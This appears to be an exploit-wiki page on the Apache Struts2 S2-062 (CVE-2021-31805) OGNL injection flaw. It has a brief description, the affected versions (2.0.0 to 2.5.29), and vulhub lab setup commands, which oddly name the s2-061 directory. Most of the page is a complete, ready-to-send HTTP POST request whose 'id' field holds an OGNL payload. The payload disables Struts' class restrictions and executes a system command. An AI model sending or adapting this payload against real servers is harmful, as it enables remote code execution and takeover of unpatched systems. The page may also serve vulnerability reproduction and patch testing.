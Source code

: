 # Apache Struts2 S2-062 Remote Code Execution Vulnerability CVE-2021-31805

## Vulnerability Description

This vulnerability is caused by incomplete repair of CVE-2020-17530. The CVE-2020-17530 vulnerability is that Struts2 performs quadratic expression parsing of attribute values ​​of certain tag attributes (such as id). Therefore, when %{x} is used in these tag attributes and the value of x is controllable by the user, the user passes in another %{payload} to cause the OGNL expression to be executed. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Struts 2.0.0 - Struts 2.5.29</a-checkbox>

## Environment construction

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650080283076-09f786e3-30aa-49f1-9650-175b50579d80.png)

Send a request packet

```php
POST /index.action HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650080313088-0b8b3c2a-61c0-41be-aaca-f1a7c1fb391c.png)